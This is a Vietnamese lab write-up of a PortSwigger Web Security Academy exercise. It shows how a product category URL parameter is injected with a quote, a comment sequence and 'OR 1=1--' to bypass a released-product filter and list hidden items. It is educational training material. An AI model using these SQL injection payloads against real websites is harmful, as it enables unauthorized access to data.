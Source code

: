 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
![Require of Lab](/Images/requireOfLab.png)

Yêu cầu của bài lab là hiển thị tất cả các sản phẩm của bất kỳ category, kể cả đã sản phẩm được hiện thị và không được hiển thị.
Truy cập vào bài lab ta thấy đây là 1 website bán hàng, với từng danh mục như 'Accessories' ,'Clothing, shoes and accessories', 'Corporate gifts' và 'Lifestyle'.
![Website](G:\Pictures\SQL\Picture2.png)

Lựa chọn mục 'Lifestyle' và thấy thanh địa chỉ hiện URL như sau:
    'https://acba1f291e3a4993c0bd46c60095006e.web-security-academy.net/filter?category=Lifestyle'
Đổi thành SQL như sau: 
    SELECT * FROM category WHERE category = 'Lifestyle' AND released = 1 
Nghĩa là ta sẽ lấy hết những sản phẩm thuộc danh mục là Lifestyle và được hiển thị.
![Product of Lifeslyte](G:\Pictures\SQL\Picture3.png)

Ta có thể chỉnh sửa URL thành như sau:
    'https://acba1f291e3a4993c0bd46c60095006e.web-security-academy.net/filter?category=Lifestyle%27—'   
Đổi thành câu truy vấn như sau: 
    SELECT * FROM category WHERE category = 'Lifestyle'—' AND released = 1
Ở trong SQL dấu – có nghĩa là comment, do đó khi ta thêm dấu – thì toàn bộ phần phía sau là AND released = 1 trở thành comment. 
Câu truy vấn trở thành: 
    SELECT * FROM category WHERE category = 'Lifestyle'
Nghĩa là lấy tất cả sản phẩm của danh mục Lifestyle.
Và kiểm tra kết quả hiển thị
![All product of Lifeslyte](G:\Pictures\SQL\Picture4.png)

Ta có thể thấy, phần sản phẩm đã xuất hiện thêm 1 sản phẩm mới là 'Balance Beams'
Tiếp theo, để hiển thị tất cả sản phẩm của bất kỳ danh mục có trong website ta thay đổi URL như sau:
    https://acbd1f821e134f99c0144063006500b4.web-security-academy.net/filter?category=Lifestyle%27+OR+1=1--
Đổi thành câu truy vấn như sau:
    SELECT * FROM category WHERE category = 'Lifestyle' OR 1=1—' AND released = 1
Câu truy vấn này sẽ trả về tất cả sản phẩm của danh mục Lifestyle hoặc khi 1 bằng 1. Mà 1 luôn luôn bằng với 1 do đó nó sẽ trả về toàn bộ sản phẩm có trong database.
![All product](G:\Pictures\SQL\Picture5.png)

Qua phép thử trên, ta thấy có thể chỉnh sửa URL để hiển thị các sản phẩm trong bất kỳ danh mục nào.

